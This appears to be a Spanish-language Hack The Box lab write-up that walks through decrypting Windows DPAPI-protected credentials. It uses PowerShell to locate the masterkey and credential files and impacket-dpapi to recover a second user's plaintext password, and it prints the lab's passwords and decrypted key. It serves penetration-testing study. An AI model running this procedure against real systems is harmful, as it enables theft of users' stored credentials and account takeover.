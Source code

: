 
> Data Protection API (DPAPI) es un metodo utilizado por sistemas windows para el cifrado simetrico de llaves privada asimetricas. Simplifica el cifrado para los desarrolladores permitiendoles cifrar datos utilizando una llave derivada de los secretos de inicio de sesion del usuario.

Existen varios metodos y herramientas para la extraccion y descifrado de claves dentro de DPAPI. Sin embargo, es importante considerar lo siguiente:
- La estructura de los datos cifrados se compone por **GUID (Global Unique Identifies)** y **SID (Security Identifies)**.
- **SID** corresponde al identificador del usuario que cifro los datos.
- **GUID** corresponde a la llave maestra que fue utilizada para el cifrado de datos.
- Combinando **SID** y **GUID** obtenemos la ruta de la llave maestra:
	- C:\PATH\TO\MASTER\KEY\\**{SID}**\\**{GUID}** 

>Fuentes
>[infosecwriteups](https://infosecwriteups.com/decrypting-dpapi-credentials-offline-8c8f27207956)
>[Credential Hunting DPAPI](https://htb.linuxsec.org/active-directory/credential-hunting/dpapi)
>[TLDR bins](https://tldrbins.github.io/dpapi/)

>Escenario  
>Consideraremos el escenario de la maquina voleur de HTB. En esta maquina/escenario ya contamos con las credenciales **todd.wolfe:NightT1meP1dg3on14**. Obtendremos credenciales del usuario **jeremy.combs** por medio de credenciales almacenadas en DPAPI.

>Enumeracion de credenciales DPAPI.

Archivos protegidos se encuentran usualmente ubicados en:
- C:\Users\username\AppData\Roaming\Microsoft\Protect\*
- C:\Users\username\AppData\Roaming\Microsoft\Credentials\*
- C:\Users\username\AppData\Roaming\Microsoft\Vault\*
- Tambien es cambia `\Roaming\` por `\Local\` en las rutas mostradas.

*Nota: Es posible enumerar con los comando **dir /A C:\PATH** y **Get-ChildItem  -Force**.*

Comenzaremos con la enumeracion.
1) Utilizando powershell listamos el contenido de la ruta **\Microsoft**.

```powershell
PS:> Get-ChildItem -Force C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\

# Salida
# Mode                 LastWriteTime         Length Name             
# ----                 -------------         ------ ----             
#d---s-         1/29/2025   7:13 AM                S-1-5-21-3927696377-1337352550-2781715495-1110                       
#-a-hs-         1/29/2025   4:53 AM             24 CREDHIST          
#-a-hs-         1/29/2025   4:53 AM             76 SYNCHIST  
```

**S-1-5-21-3927696377-1337352550-2781715495-1110** corresponde al **SID** del usuario **todd.wolfe**.

2) Utilizando el mismo metodo, listamos el contenido del **SID** previamente obtenido.

```powershell
PS:> Get-ChildItem -Force C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\

# Salida 
# Mode                 LastWriteTime         Length Name             
# ----                 -------------         ------ ----             
#-a----         1/29/2025   4:53 AM            740 08949382-134f-4c63-b93c-ce52efc0aa88 
```

**08949382-134f-4c63-b93c-ce52efc0aa88** corresponde al **GUID** de la llave maestra. Es necesario descargar el archivo **08949382-134f-4c63-b93c-ce52efc0aa88** a nuestra maquina atacante

3) Para finalizar, enumeraremos el contenido del directorio **\Credentials**, en busca del 

```powershell
PS:> Get-ChildItem -Force C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\

# Salida
# Mode                 LastWriteTime         Length Name             
# ----                 -------------         ------ ----             
# -a----         1/29/2025   4:55 AM            398 772275FAD58525253490A9B0039791D3 
```

**772275FAD58525253490A9B0039791D3** corresponde al archivo que contiene las credenciales almacenadas y cifradas. Tambien es necesario descargarlo en nuestra maquina atacante.

Llegando a este punto, ya es posible que descifremos los archivos y obtengamos credenciales en texto claro.

>Descifrando contrasenas con  impacket-dpapi

*Nota: En caso de optar por obtener el valor Base64 de los archivos y decifrarlos en nuestra maquina loca, tener en cuenta que en ocasiones no funciona este metodo.*

1) Descifrando **masterkey**.

```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid "S-1-5-21-3927696377-1337352550-2781715495-1110" -password "NightT1meP1dg3on14"

# Salida Esperada

#Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

# [MASTERKEYFILE]
# Version     :        2 (2)
# Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
# <SNIP>

# Decrypted key with User Key (MD4 protected)
# Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

2) Obtener credentiales.

```bash
impacket-dpapi credential -f "772275FAD58525253490A9B0039791D3" -key "0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83"

# Salida Esperada.
#[CREDENTIAL]
# <SNIP>
# Username    : jeremy.combs
# Unknown     : qT3V9pLXyN7W4m
```



